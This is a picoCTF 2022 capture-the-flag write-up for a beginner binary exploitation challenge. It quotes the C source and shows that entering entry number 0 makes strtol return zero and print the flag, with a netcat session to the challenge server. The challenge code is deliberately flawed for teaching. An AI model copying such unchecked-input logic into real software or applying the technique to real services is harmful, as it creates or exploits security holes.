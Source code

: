 # basic-file-exploit

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Exploitation
Author: WILL HONG

Description:
The program provided allows you to write to a file and read what you wrote from it. 
Try playing around with it and see if you can break it!

Connect to the program with netcat:
$ nc saturn.picoctf.net 50959

The program's source code with the flag redacted can be downloaded here.
 
Hints:
1. Try passing in things the program doesn't expect. Like a string instead of a number.
```
Challenge link: [https://play.picoctf.org/practice/challenge/252](https://play.picoctf.org/practice/challenge/252)

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```
Nothing much interesting here and the program even tells us that `breaking boundaries elsewhere will be helpful`.

Let's see were the flag is printed, that is in the `data_read` function
```c
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

If we input something which input to the `strtol` function returns 0, we get the flag.  
The [strtol](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm) function converts 
strings to long integers. 

A return value of zero signals a failure in the convertion but if we input the string `0` we also get a zero value so let's use that.

### Plan of attack

We can't "reach" the `data_read` function directly since the program checks if there is data available
as we see in this code snippet of `main`
```c
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

So we start by entering some bogus data.

Then we try to read and when asked for the entry we select entry number `0`.

### Connect to the server and get the flag

Finally, let's exploit and get the flag
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Basic_File_Exploit]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
picoCTF
picoCTF
Please enter the length of your data:
7
7
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [strtol function](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm)
